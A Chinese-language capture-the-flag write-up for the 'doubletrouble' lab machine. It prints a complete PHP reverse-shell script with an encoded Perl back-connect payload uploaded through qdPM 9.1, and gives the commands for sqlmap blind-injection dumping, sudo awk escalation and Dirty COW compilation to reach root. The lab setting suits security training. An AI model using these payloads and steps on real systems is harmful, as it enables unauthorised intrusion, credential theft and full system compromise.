# doubletrouble
VULHUB 靶场实验
# 实验工具：
fscan：端口扫描工具
nmap: 十分好用的端口扫描工具
攻击机: <font color="red"> Kali Linux </font>
IP: <font color="red" > 192.168.12.24 </font>
目标机: <font color="red"> Debian </font>
IP: <font color="red" > 192.168.12.158 </font>
# 实验步骤：
# 步骤 1: 获取目标 IP 地址
方法一：使用 fscan 扫描一下 ip 段，获取目标 ip 为 192.168.12.178

方法二：使用 Advanced IP Scanner 扫描指定 IP 段内的机器

# 步骤 2: 使用 Nmap 扫描目标开放端口
使用 nmap 扫描 192.168.12.158，发现开放了 22、80 端口
nmap -A -p- 192.168.12.158 -oN /root/桌面/doubletrouble.txt

# 步骤 3: 访问目标网站
浏览器访问 192.168.12.158，发现一个 Login 页面

尝试了弱口令没有效果，这个页面没有办法处理，使用 dirsearch 扫描目录
用法: dirsearch -u [域名 / IP 地址] -o [导出文件路径]
dirsearch -u 192.168.12.158 -o /root/桌面/dir.txt

使用 cat 命令筛选出 200 响应码的路径
cat dir.txt | grep 200

# 步骤 4: 利用 stegseek 图片解密
在 /secret/ 目录中有个比较奇怪的图片，将它保存到本地
使用 stegseek 对图片进行解密
github: https: //github.com/RickdeJager/stegseek/releases
kali 自带了 rockyou.txt，但是需要解压一下
gunzip /usr/share/wordlists/rockyou.txt.gz
sudo stegseek ./doubletrouble.jpg /usr/share/wordlists/rockyou.txt

使用 cat 查看解密出的文件，得出账号密码
otisrush@localhost.como
tis666 `

进入之前的登录窗口尝试登录一下，登录成功
之前在翻目录的时候看到 install 写着 qdPM 9.1

# qdPM 漏洞利用
# 步骤 6：php 反弹 shell
发现就是用户的 myAccount 界面的图片那一栏是可以上传文件的，我们上传一个 php 反弹 shell 的脚本
PHP 反弹 shell 脚本：
<?php
function which($pr) {
$path = execute("which $pr");
return ($path ? $path : $pr);
}
function execute($cfe) {
$res = '';
if ($cfe) {
if(function_exists('exec')) {
@exec($cfe,$res);
$res = join("\n",$res);
} elseif(function_exists('shell_exec')) {
$res = @shell_exec($cfe);
} elseif(function_exists('system')) {
@ob_start();
@system($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(function_exists('passthru')) {
@ob_start();
@passthru($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(@is_resource($f = @popen($cfe,"r"))) {
$res = '';
while(!@feof($f)) {
$res .= @fread($f,1024);
}
@pclose($f);
}
}
return $res;
}
function cf($fname,$text){
if($fp=@fopen($fname,'w')) {
@fputs($fp,@base64_decode($text));
@fclose($fp);
}
}
$yourip = "your IP";
$yourport = 'your port';
$usedb = array('perl'=>'perl','c'=>'c');
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj".
"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR".
"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT".
"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI".
"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi".
"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
cf('/tmp/.bc',$back_connect);
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &");
?>
上传 shell 脚本地址：
http: //192.168.xxx.xxx/index.php/myAccount

上传成功后，在 kali 中开启监听
nc -lnvp 4444

打开 uploads/users 中有我们上传到的 php 脚本，点击 php 开始执行，shell 反弹成功

使用 python 改成伪交互式的 shell
python -c "import pty;pty.spawn('/bin/bash')"

# 提权
查看当前用户能使用 sudo 的权限 ，可免密执行 awk 命令

awk 命令可以进行提权
sudo awk 'BEGIN{system("/bin/bash")}'

进入 root 目录，ls 查看一下，下载 doubletrouble.ova

首先查看一下是否有 python3 环境
python3 -V

使用 python3 开启一个 http 服务，然后从本地下载 doubeltrouble.ova 导入
python3 -m http.server 8888


导入后扫描一下 ip
目标 IP 地: 192.168.12.58

使用 nmap 扫描一下开放端口
nmap -A -p- 192.168.12.58

开放端口 22、80
访问 80 端口，发现是一个登录界面

尝试使用万能密码，测试是否存在注入
使用 burp 抓包，导出为 txt 文件，使用 sqlmap 测试



sqlmap跑出 uname存在时间延时盲注
使用 sqlmap 跑用户名
python3 sqlmap.py -r /root/桌面/sql.txt -D doubletrouble -T users -C username --dump --batch --threads 10

sqlmap 跑密码
python3 sqlmap.py -r /root/桌面/sql.txt -D doubletrouble -T users -C password --dump --batch --threads 10

尝试在网站上登录，两个都不好使，尝试使用 ssh 登录

登陆成功，查看系统版本内核
uname -r
uname -a
得到版本是3.2.0-4

使用 cat /etc/*-release 看到是 Debian 7 系统

Debian 7 系统可以通过脏牛提权
github: https: //github.com/FireFart/dirtycow

在靶机上 gcc -v 查看是否有 gcc 编译环境

传到目标靶机上，然后进行编译
scp /root/桌面/内网工具/脏牛/dirtycow/dirty.c clapton@192.168.12.58: /tmp 
gcc -pthread dirty.c -o dirty -lcrypt

然后去执行 dirty

su firefart
登录到 firefart 上

成功获取到 root 权限以及 flag
flag: 1B8EEA89EA92CECB931E3CC25AA8DE21